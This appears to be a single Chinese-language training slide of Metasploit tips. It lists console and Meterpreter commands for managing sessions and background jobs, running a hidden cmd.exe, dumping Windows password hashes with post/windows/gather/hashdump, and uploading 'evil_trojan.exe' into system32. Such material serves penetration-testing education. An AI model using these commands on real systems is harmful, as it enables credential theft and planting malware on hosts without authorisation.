

# Metasploit技巧
set 和 unset 设置参数(非全局)
setg和unsetg(全局设置)
save 保存参数
backgroud 放入后台
sessions –l 显示全部会话
sessions –i 1  进入会话1
execute -f cmd.exe -i –H 执行命令
run post/windows/gather/hashdump
upload evil_trojan.exe c:\\windows\\system32 上传文件
exploit –j –z 放入后台
15